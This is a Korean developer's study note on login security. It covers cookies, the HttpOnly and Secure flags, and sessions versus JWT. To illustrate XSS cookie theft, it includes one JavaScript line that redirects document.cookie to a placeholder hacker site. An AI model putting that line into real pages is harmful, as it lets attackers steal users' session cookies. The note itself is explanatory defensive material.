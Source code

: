 ## **로그인 구현하기** 

### 1. Cookie에 대한 이해 
- 쿠키는 HTTP통신을 이용하는 서버 어디에서든지 쿠키를 주고 받을 수 있으며 클라이언트에서도 쿠키에 접근하고 관리할 수 있다.
- HTTP는 기본적으로 상태정보를 기억하지 못하기 때문에, 서버는 요청자가 누구인지, 같은 사람인지 식별할 수 없다.
- 이러한 문제를 해결하기 위해, 서버는 사용자의 식별정보를 쿠키에 저장하며, 쿠키에 저장된 정보를 통해 각 사용자를 구별한다.
- 수많은 사이트들에서 민감한 개인정보를 쿠키에 저장하고 있으며, 해커들은 다양한 방법으로 이 쿠키를 탈취하고자 하므로 보안에 신경을 써야 된다.

### 2. HTTP Only Cookies

쿠키는 클라이언트에서 자바스크립트로 조회할 수 있기 떄문에, 해커들은 자바스크립트로 쿠키를 가로채고자 시도를 하게 된다. 가장 대표적인 공격 중 하나가 CSS(Cross Site Scripting)이다. 
```jsx
location.href = "http://해커사이트/?cookies=" + document.cookie;
```
해커가 이와 같은 게시물을 공개게시판에 작성할 경우, 이 게시물을 읽은 다른 사용자는 알아차리기도 전에 자신의 모든 쿠키를 해커에게 전송하게 된다.

이러한 취약점을 해결하는 방법은, 바로 브라우저에서 쿠키에 접근할 수 없도록 제한하는 것이다. 이러한 역할을 하는 것이 바로 HTTP Only Cookie이다. 개발자가 다음과 같이 간단한 접미사를 쿠키 생성코드에 추가함으로써 활성화할 수 있다.
```jsx
Set-Cookie: 쿠키명 = 쿠기값; path=/; HttpOnly
```
가장 마지막에 HttpOnly라는 접미사만 추가함으로써 HTTP Only Cookie가 활성화 되며, 위에서 말한 XSS와 같은 공격이 차단되게 된다. HTTP Only Cookie를 설정하면 브라우저에서 해당 쿠키로 접근할 수 없게 되지만, 쿠키에 포함된 정보의 대부분이 브라우저에서 접근할 필요가 없기 때문에 HTTP Only Cookie는 기본적으로 적용하는 것이 좋다.

### 3. Secure Cookies
HTTP Only Cookie를 이용하면 Client에서 Javascript를 통한 쿠키 탈취문제를 예방할 수 있다. 하지만 Javascript가 아닌 네트워크를 직접 감청하여 쿠키를 가로챌 수 있다. 이러한 통신상의 정보유출을 막기위해 HTTPS 프로토콜을 사용하여 데이터를 암호화하는 방법이 주로 사용되고 있다. HTTPS를 사용하면 쿠키 또한 암호화되어 전송되기 때문에, 제 3자는 내용을 알 수 없다.

문제는 HTTPS로 전송되어야 할 정보가, 개발자의 부주의로 HTTP를 통해 유출되는 경우가 있다. 예를 들어 개발자가 다음과 같은 코드를 실수로 작성할 수 있다.
```jsx
<img src="http://www.example.com/images/logo.png" />
```
브라우저는 http://로 시작되는 위 코드를 만나면 암호화되지 않은 상태로 쿠키를 서버로 전달하게 됩니다. 해커는 이 암호화되지 않은 요청정보를 가로채서 쿠키를 탈취하게 됩니다.

이러한 사고를 방지하는 방법은 쿠키를 생성할 때 secure 접미사를 사용하는 것이다.
```jsx
Set-Cookie: 쿠키명=쿠키값; path=/; secure
```
위와 같이 마지막에 secure라는 접미사를 사용하여 쿠키를 생성하면, 브라우저는 HTTPS가 아닌 통신에서는 쿠키를 전송하지 않는다.

### 4. Session vs JWT(Json web Token)

**1.Sesstion(세션)**
- 전통적으로 많이 사용되어 온 방식으로, 서버 기반 인증방법이다.
- 세션 id를 사용해서 어떤 사용자가 서버에 로그인 되어있음이 지속되는 상태를 '세션'이라고 한다.
1. 사용자가 로그인에 성공하면 세션을 발행한다.
2. 그 세션을 브라우저에도 저장하고 서버 메모리에도 저장한다.
3. 인가가 필요한 요청을 보낼 때 서버에 세션값을 같이 보냄
4. 서버는 메모리에 저장된 값과 세션값을 비교해서 맞는 값이 있으면 성공

**단점은?**
- 세션이 서버에 저장되어 있기 때문에 사용자가 동시 다중 접속할 떄 메모리가 부족해진다.
- 확장성 부분에서 분산된 서버의 경우 세션 유지가 제대로 안되기 때문에 서버 확장이 어렵다.

**2. JWT (JSON Web Token)**
- 사용자가 로그인을 하면 토큰을 주는데, 이 토큰을 서버가 기억하고 있지는 않는다.(stateless)
- 세션을 대체하지 못하는 이유는 모든 사용자의 상태를 기억하고 있지 않는다.
- JWT는 이미 제공한 토큰을 뺏을 수 없어서 해커에게 토큰을 빼앗겨도 톸느을 무효화할 방법이 없음 => accessToken, refreshToken 두개의 토큰을 제공해야 한다.

### 참고
1. <a href="https://velog.io/@yaytomato/%ED%94%84%EB%A1%A0%ED%8A%B8%EC%97%90%EC%84%9C-%EC%95%88%EC%A0%84%ED%95%98%EA%B2%8C-%EB%A1%9C%EA%B7%B8%EC%9D%B8-%EC%B2%98%EB%A6%AC%ED%95%98%EA%B8%B0#-%EB%A1%9C%EA%B7%B8%EC%9D%B8%EC%9D%80-%EC%96%B4%EB%96%BB%EA%B2%8C-%EC%9D%B4%EB%A3%A8%EC%96%B4%EC%A7%80%EB%82%98">https://velog.io/@yaytomato/</a>
2. https://nsinc.tistory.com/121
